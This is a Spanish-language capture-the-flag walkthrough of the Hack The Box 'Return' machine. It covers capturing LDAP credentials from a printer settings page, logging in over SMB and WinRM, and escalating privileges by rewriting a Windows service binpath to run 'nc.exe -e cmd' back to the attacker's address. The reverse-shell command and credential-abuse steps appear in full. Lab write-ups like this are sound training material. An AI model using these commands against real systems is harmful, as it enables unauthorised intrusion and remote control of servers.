


# HTB-Return `10.10.11.108`

*Abusing Printer*

*Abusing Server Operators Group*

*Service Configuration Manipulation*

### Intrusión
Como siempre empezamos con nuestra sentencia nmap

```
nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 10.10.11.108 -oN Targeted
```
 
 
 
 
 

Descubrimos varios puertos interesantes abiertos, entre ellos:
`
80,135,139,389 y 445.
`

Vamos a empezar examinando la web, encontramos un directorio público en el que parece que nos conectamos a una impresora a través de una dirección y el puerto 389.

 
 
 
Podemos comprobar que la contraseña no es una contraseña como tal, es solo texto.
Se me ocurre que podemos ver si tenemos conexión con ese formulario, para ello introducimos nuestra dirección IP.


Y abrimos tcpdump por el adaptador red de la VPN.

```
tcpdump -i tun0 -n icmp
```
 
Al hacer click en update, podemos ver que nos llegan paquetes HTTP.


 
Vamos a intentar escuchar por el puerto indicado, el 389, con netcat:


Y vaya, tenemos credenciales.

`
svc-printer:1edFg43012 !!
`

Si las probamos en crackmapexec podemos ver que son credenciales válidas para SMB.

```
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```


Lo podemos comprobar con smbmap

```
smbmap -H 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```


 
Vamos a realizar la intrusión en la máquina usando evil-winrm (gem install evil-winrm)

```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012 !!'
```


*Y hemos logrado entrar en la máquina y obtener la primera flag.*


### Escalada de Privilegios
Si hacemos un `whoami /priv` obtenemos varios medios por los que escalar privilegios.

Si hacemos un `whoami /groups` nos llama la atención Server Operators
 


“A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.”
Vamos a intentar modificar un servicio como dice aquí [https://cube0x0.github.io/Pocing-Beyond-DA/](https://cube0x0.github.io/Pocing-Beyond-DA/)


Vamos a subir netcat a la máquina víctima


 

Vamos a ver que servicios hay activos: `services`


 
*Inicialmente se va probando con cada servicio, hasta que nos deje con uno de ellos:*

Intentamos cambiar el servicio VSS con binpath, indicándole que nos mande una Shell con netcat

```
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.11 443
```


 
Intentamos parar el servicio, pero no está iniciado.


Así que lo iniciamos, abriendo un puerto de escucha antes en nuestra máquina


Recibimos exitosamente una Shell


Completando la máquina exitosamente
  

